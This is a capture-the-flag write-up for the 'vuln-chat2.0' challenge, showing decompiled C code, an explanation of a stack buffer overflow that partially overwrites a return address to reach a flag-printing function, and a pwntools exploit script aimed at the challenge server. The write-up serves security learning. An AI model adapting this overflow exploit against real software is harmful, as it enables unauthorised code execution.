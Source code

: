 #Writeup Of AceBear Team

First, use IDA pro to view source code i have:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0x14u);
  doThings();
  return 0;
}
```
```C
int doThings()
{
  char buf; // [esp+1h] [ebp-27h]
  char v2; // [esp+15h] [ebp-13h]

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", &v2);
  printf("Welcome %s!\n", &v2);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", &v2);
  read(0, &buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```
```C
int printFlag()
{
  puts("Ah! Found it");
  system("/bin/cat ./flag.txt");
  return puts("Don't let anyone get ahold of this");
}
```
In `doThings()`, when i input infomation `read(0, &buf, 0x2Du);` i can overwrite 2 byte of return address.
In this case old value of return address is `0x08048668`, i can overwrite to `0x08048672`, which is address of 'printFlag()`

```py
from pwn import *
from time import *

r = remote('vulnchat2.tuctf.com', 4242)
# r = process('./vuln-chat2.0')
# gdb.attach(r, )
r.recvuntil('Enter your username: ')
r.sendline('a')
sleep(1)
r.send('a'*0x2b+'\x72\x86')
r.interactive()
```
